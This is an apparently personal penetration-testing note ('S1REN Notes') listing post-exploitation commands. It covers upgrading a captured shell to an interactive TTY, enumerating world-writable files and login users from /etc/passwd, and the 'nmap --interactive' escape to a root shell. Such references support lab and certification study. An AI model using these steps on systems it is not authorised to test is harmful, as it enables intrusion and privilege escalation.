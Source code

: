 ```yaml
---
creation date: June 12th 2023
last modified date: June 12th 2023
aliases: []
tags: #㊙️
---
```


Search Tag: #㊙️  

# [[S1REN Notes]]  

=============================================================================
[ + AND EXPORT PATH ]
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200
=============================================================================
==Once Broken Out - Before PrivEsc Reference - Perform These Commands========
=============================================================================
find / -perm -2 ! -type l -ls 2>/dev/null |sort -r
-----------------------------------------------------------------------------
grep -vE "nologin|false" /etc/passwd
-----------------------------------------------------------------------------
=====Other, Misc=====
-----------------------------------------------------------------------------
nmap --interactive
nmap> !sh
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: June 12th 2023 (08:43 pm) 
Last Modified Date: June 12th 2023 (08:43 pm)

